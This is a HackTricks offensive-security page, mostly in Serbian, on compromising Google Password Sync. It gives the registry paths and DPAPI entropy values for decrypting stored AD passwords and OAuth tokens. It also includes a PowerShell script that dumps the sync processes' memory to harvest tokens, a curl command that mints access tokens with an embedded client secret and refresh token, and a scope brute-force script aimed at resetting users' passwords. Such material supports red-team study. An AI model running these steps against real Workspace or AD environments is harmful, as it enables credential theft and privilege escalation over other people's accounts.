 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ovo je binarni fajl i servis koji Google nudi kako bi **održao sinhronizovane lozinke korisnika između AD** i Workspace-a. Svaki put kada korisnik promeni svoju lozinku u AD-u, ona se postavlja na Google.

Instalira se u `C:\Program Files\Google\Password Sync` gde možete pronaći binarni fajl `PasswordSync.exe` za konfiguraciju i `password_sync_service.exe` (servis koji će nastaviti da radi).

### GPS - Configuration

Da biste konfigurisali ovaj binarni fajl (i servis), potrebno je **dati mu pristup Super Admin principalu u Workspace-u**:

* Prijavite se putem **OAuth** sa Google-om i onda će **sačuvati token u registru (kriptovan)**
* Dostupno samo na kontrolerima domena sa GUI
* Dati neke **akreditivе Servisnog naloga iz GCP-a** (json fajl) sa dozvolama za **upravljanje korisnicima Workspace-a**
* Veoma loša ideja jer ti akreditivi nikada ne isteknu i mogu se zloupotrebiti
* Veoma loša ideja dati SA pristup preko workspace-a jer bi SA mogao biti kompromitovan u GCP-u i moguće je prebaciti se na Workspace
* Google to zahteva za kontrolisane domene bez GUI
* Ovi akreditivi se takođe čuvaju u registru

Što se tiče AD-a, moguće je naznačiti da koristi trenutni **kontekst aplikacije, anonimno ili neke specifične akreditive**. Ako je opcija akreditiva izabrana, **korisničko ime** se čuva unutar fajla na **disku** i **lozinka** je **kriptovana** i čuva se u **registru**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Napomena da [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) može da detektuje **GPS**, dobije informacije o konfiguraciji i **čak dekriptuje lozinku i token**.
{% endhint %}

U fajlu **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** moguće je pronaći deo konfiguracije kao što je **`baseDN`** AD-a koji je konfigurisan i **`username`** čiji se akreditivi koriste.

U registru **`HKLM\Software\Google\Google Apps Password Sync`** moguće je pronaći **kriptovani refresh token** i **kriptovanu lozinku** za AD korisnika (ako ih ima). Štaviše, ako se umesto tokena koriste neki **SA akreditivi**, takođe je moguće pronaći te kriptovane u toj adresi registra. **Vrednosti** unutar ovog registra su dostupne samo **Administratorima**.

Kriptovana **lozinka** (ako je ima) se nalazi unutar ključa **`ADPassword`** i kriptovana je koristeći **`CryptProtectData`** API. Da biste je dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Kriptovani token (ako ga ima) se nalazi unutar ključa **`AuthToken`** i kriptovan je koristeći **`CryptProtectData`** API. Da biste ga dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Štaviše, takođe je kodiran koristeći base32hex sa rečnikom **`0123456789abcdefghijklmnopqrstv`**.

Vrednosti entropije su pronađene korišćenjem alata. Konfigurisano je da prati pozive ka **`CryptUnprotectData`** i **`CryptProtectData`** i zatim je alat korišćen za pokretanje i praćenje `PasswordSync.exe` koji će dekriptovati konfigurisanju lozinku i auth token na početku, a alat će **prikazati vrednosti za korišćenu entropiju** u oba slučaja:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Napomena da je takođe moguće videti **dekriptovane** vrednosti u ulazu ili izlazu poziva ovih API-ja takođe (u slučaju da u nekom trenutku Winpeas prestane da radi).

U slučaju da je Password Sync **konfigurisana sa SA akreditivima**, takođe će biti sačuvana u ključevima unutar registra **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Baš kao i sa GCPW, moguće je dump-ovati memoriju procesa `PasswordSync.exe` i `password_sync_service.exe` i moći ćete da pronađete refresh i access tokene (ako su već generisani).\
Pretpostavljam da biste takođe mogli pronaći konfiguracione akreditive AD-a.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generisanje pristupnih tokena iz osvežavajućih tokena

Korišćenjem osvežavajućeg tokena moguće je generisati pristupne tokene koristeći ga i ID klijenta i tajnu klijenta navedene u sledećoj komandi:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Imajte na umu da čak i ako imate refresh token, nije moguće zatražiti bilo koji scope za access token jer možete zatražiti samo **scope-ove koje podržava aplikacija u kojoj generišete access token**.

Takođe, refresh token nije važeći u svakoj aplikaciji.
{% endhint %}

Podrazumevano, GPS neće imati pristup kao korisnik svim mogućim OAuth scope-ovima, pa možemo koristiti sledeći skript da pronađemo scope-ove koji se mogu koristiti sa `refresh_token` za generisanje `access_token`:

<details>

<summary>Bash skript za brute-force scope-ove</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

I ovo je izlaz koji sam dobio u vreme pisanja:
```
https://www.googleapis.com/auth/admin.directory.user
```
Koji je isti kao onaj koji dobijate ako ne navedete nikakav opseg.

{% hint style="danger" %}
Sa ovim opsegom možete **izmeniti lozinku postojećeg korisnika kako biste eskalirali privilegije**.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
